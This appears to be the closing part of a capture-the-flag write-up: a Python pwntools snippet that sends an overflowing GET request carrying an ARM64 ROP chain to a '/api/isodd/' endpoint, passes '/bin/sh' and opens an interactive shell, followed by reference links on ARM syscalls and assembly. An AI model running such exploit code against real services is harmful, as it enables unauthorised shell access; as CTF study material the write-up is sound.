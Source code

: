 ```python
trigger = flat([
    0, # x29
    #
    0x4007EC
])

p.send((b"GET /api/isodd/%\x001" + encode(b"a" * (0x68 - len(rop_chain)  - 1) + rop_chain + trigger)).ljust(0x3ff, b'\x00'))

p.send(b"/bin/sh\x00")


p.interactive()
```



# Resource

[Arm sysca number table](https://github.com/torvalds/linux/blob/v4.17/include/uapi/asm-generic/unistd.h)

[A Guide to ARM64 / AArch64 Assembly on Linux with Shecodes and Cryptography](https://modexp.wordpress.com/2018/10/30/arm64-assembly/)
